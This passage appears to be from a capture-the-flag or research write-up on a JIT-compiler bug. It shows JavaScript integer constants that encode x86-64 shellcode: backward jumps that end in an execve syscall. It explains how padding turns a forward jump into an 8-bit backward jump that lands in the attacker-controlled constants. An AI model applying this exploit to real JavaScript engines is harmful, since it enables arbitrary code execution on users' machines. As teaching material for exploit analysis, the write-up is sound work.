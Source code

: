 ```javascript
		
		0x09ebc3fe;
		0x09eb9058;
		0x09eb0388;
		0x09ebc3fe;
		0x09eb9058;
		0x09eb0388;
		0x09ebc3fe;
		0x16eb9058;
		
		0xcc89eb;	// backward jump

		0x09eb0388;
		0x09ebc3fe;
		0x09eb9058;
		0x09eb0388;
		0x09ebc3fe;
		0x09eb9058;
		0x09eb0388;
		0x16ebc3fe;
		
		0xcc89eb;	// backward jump
		
		0x09ebf631;	// xor esi, esi
		0x09ebd231;	// xor edx, edx
		0x09eb3b6a;	// push 59
		0x09eb9058;	// pop rax
		0x09eb050f;	// syscall
		0x09eb0b0f;	// ud2 => terminate the program if execve fails and we reach here. used for debugging the shellcode.
		0x09ebcccc;	// padding
		0x16ebcccc;	// padding

		0xcc89eb;	// backward jump (vulnerable jump landing point)
		[];"a";[];[];	// padding to make the vulnerable negative jump land in the immediate value above
	} else {
		[];[];[];[];	// padding to trigger a vulnerable negative jump when it tries to jump over this code block
	}
}
```

To summarize, the control flow in handled in a way that results in a `jmp` from the end of the `if` block to after the end of the `else` block (so a jump that jumps over the whole `else` block). The `[];[];[];[];` in the `else` block can change the size of this jump into `0x7e` (in the case of a normal 32-bit jump) which is increased by 3 to be replaced with an 8-bit jump. This will result in a jump instruction of `eb 81` at the end of the `if` block, which will jump backwards into the `if` block itself instead of jumping over the `else` block and to the end of it. the `[];"a";[];[];` line at the end of the `if` block is padding to ensure that this negative jump lands in the constant value above this line. After the jump lands in the integer constant right before the last line of the `if` block, we can control the instructions at `rip` by writing instructions in the form of integer constants. We right instructions to jump backwards several times and open up space for our main shellcode, and when these backward jumps reach the first line of the `if` block in the script above, we start executing our main shellcode by dividing it into 4-byte chunks.

